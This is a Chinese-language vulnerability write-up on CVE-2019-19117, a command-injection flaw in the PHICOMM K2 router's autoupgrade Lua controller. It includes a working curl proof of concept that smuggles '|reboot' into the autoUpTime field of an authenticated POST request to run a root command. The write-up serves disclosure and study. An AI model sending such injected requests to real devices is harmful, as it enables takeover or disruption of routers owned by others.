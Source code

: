 # （CVE-2019-19117）PHICOMM 远程代码执行

> 原文：[http://book.iwonder.run/iot/PHICOMM/1.html](http://book.iwonder.run/iot/PHICOMM/1.html)

## 一、漏洞简介

通过修改 HTTP post 请求中的内容，在根 shell 上远程执行命令。

## 二、漏洞影响

PHICOMM K2(PSG1218) V22.5.9.163

## 三、复现过程

受影响的源代码文件：/usr/lib/lua/luci/controller/admin/autoupgrade.lua

受影响的函数：save（）

### 漏洞详情

首先，在通过 Web 登录身份验证，会话劫持漏洞或弱凭据破解攻击以获取访问权限后，向设备发送精心制作的数据包

```
curl -i -s -k -v -X'POST'  -e "http://192.168.2.1/cgi-bin/luci/;stok=xxx/xxx/xxx/xxx" -b "sysauth=4a2c4bdba5fb1273ce62759fd42dba42" --data-binary "mode=1&autoUpTime=02%3A05|reboot" 'http://192.168.2.1/cgi-bin/luci/;stok=xxx/admin/xxx/xxx/xxx' 
```

在此 http 数据包中，我们将要执行“重新引导”的命令添加到数据包内容中。

![image](img/395baade771c3874d29a7a3397319bdc.png)

我们可以看到，将'autoUpTime'的值直接分配给变量，而无需检查该值是否被恶意修改，然后发送给服务器。

![image](img/3dcdf4968197300621bb7cc86876e37c.png)

然后，服务器直接将数据附加到命令，而无需检查数据是否也被恶意修改，从而使攻击者想要执行的命令附加到该命令。

最后，路由器将执行命令“ reboot”，这将导致 DoS。

